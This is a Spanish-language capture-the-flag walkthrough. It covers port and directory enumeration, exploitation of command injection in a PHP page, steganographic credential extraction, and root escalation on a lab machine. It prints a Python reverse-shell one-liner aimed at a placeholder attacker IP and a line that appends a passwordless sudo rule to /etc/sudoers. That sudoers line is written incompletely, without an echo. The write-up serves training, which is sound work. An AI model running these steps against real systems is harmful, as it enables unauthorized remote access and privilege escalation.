 ## 1. Enumeración

### Escaneo inicial con Nmap

Comenzamos con la fase de escaneo de puertos utilizando la herramienta `nmap`:

```bash
nmap -sS -p- <IP-OBJETIVO>
```

![Escaneo Nmap](imagenesb/bakugo1.png)

Como podemos observar, encontramos **dos puertos abiertos**:

- **80/tcp**: HTTP
- **22/tcp**: SSH

---

### 1.1 Enumeración del puerto 80 (HTTP)

Utilizamos `gobuster` para realizar fuerza bruta a los directorios:

```bash
gobuster dir -u http://<IP-OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```

Resultados iniciales:

![Gobuster directorios](imagenesb/bakugo2.png)

Encontramos el directorio `/assets`. Al ingresar, no se muestra nada útil.

Realizamos fuerza bruta dentro del directorio `assets`:

```bash
gobuster dir -u http://<IP-OBJETIVO>/assets -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster en /assets](imagenesb/bakugo3.png)

Dentro del directorio `/assets`, encontramos un archivo `index.php`.

#### Enumeración con Dirsearch

Ejecutamos `dirsearch` para buscar más archivos o vulnerabilidades:

```bash
dirsearch -u http://<IP-OBJETIVO>/assets
```

![Dirsearch resultados](imagenesb/bakugo4.png)

Aquí detectamos una vulnerabilidad de **inyección de comandos** en `index.php`.

---

### 1.2 Explotación de la vulnerabilidad

Al interactuar con la vulnerabilidad, encontramos texto codificado en **Base64**. Usamos `CyberChef` para decodificarlo.

![Decodificación en CyberChef](imagenesb/bakugo7.png)

Una vez entendida la vulnerabilidad, procedemos a subir una **reverse shell** en Python:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![Subida de reverse shell](imagenesb/bakugo8.png)

Logramos obtener acceso a la máquina.

---

### 1.3 Búsqueda de información

#### Archivos interesantes

Al explorar la máquina, encontramos un directorio con imágenes:

![Directorio de imágenes](imagenesb/bakugo9.png)

Copiamos las imágenes a nuestra máquina para analizarlas:

```bash
scp usuario@<IP-OBJETIVO>:/ruta/a/las/imagenes .
```

#### Contraseñas codificadas

También encontramos un archivo con una contraseña codificada en Base64:

![Contraseña codificada](imagenesb/bakugo11.png)

Decodificamos la contraseña:

```bash
echo "<contraseña-codificada>" | base64 -d
```

---

### 1.4 Análisis de imágenes

Al analizar la imagen `0neforall.jpg`, observamos que tiene un error. Usamos `hexeditor` para inspeccionar su contenido:

```bash
hexeditor 0neforall.jpg
```

![Hexeditor muestra error](imagenesb/bakugo13.png)

El encabezado indica que la imagen es de formato PNG. Corregimos el error cambiando el encabezado a JPG.

![Imagen corregida](imagenesb/bakugo14.png)

#### Extracción con Steghide

Usamos `steghide` para extraer datos ocultos de la imagen:

```bash
steghide extract -sf 0neforall.jpg
```

![Extracción con Steghide](imagenesb/bakugo16.png)

Obtenemos el usuario y contraseña para acceder al servicio SSH.

---

### 2. Conexión por SSH y escalada de privilegios

Nos conectamos por SSH con las credenciales extraídas:

```bash
ssh usuario@<IP-OBJETIVO>
```

![Conexión SSH](imagenesb/bakugo17.png)

#### Escalada de privilegios

Identificamos que el usuario puede ejecutar un script con privilegios elevados. Modificamos el archivo `sudoers` para agregar nuestro usuario con privilegios de superusuario:

```bash
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

Finalmente, obtenemos acceso como **root** y la segunda bandera.

![Acceso root](imagenesb/bakugo18.png)

---

### Conclusión

Hemos completado el acceso inicial, la explotación y la escalada de privilegios, logrando obtener las banderas requeridas. ¡Buen trabajo!
